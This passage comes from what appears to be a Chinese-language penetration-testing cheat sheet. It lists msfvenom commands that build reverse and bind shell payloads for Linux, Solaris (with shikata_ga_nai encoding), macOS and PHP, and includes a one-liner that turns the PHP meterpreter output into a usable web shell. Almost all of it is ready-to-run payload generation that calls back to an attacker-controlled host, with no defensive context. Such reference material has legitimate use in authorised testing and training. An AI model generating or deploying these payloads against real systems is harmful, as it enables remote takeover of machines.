### 反向Shell

{% code overflow="wrap" %}
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```
{% endcode %}

### 绑定 Shell

{% code overflow="wrap" %}
```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```
### SunOS (Solaris)

{% code overflow="wrap" %}
```bash
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```
{% endcode %}

## **MAC 载荷**

### **反向 Shell：**

{% code overflow="wrap" %}
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
{% endcode %}

### **绑定 Shell**

{% code overflow="wrap" %}
```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```
{% endcode %}

## **基于网络的有效载荷**

### **PHP**

#### 反向壳**l**

{% code overflow="wrap" %}
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
{% endcode %}
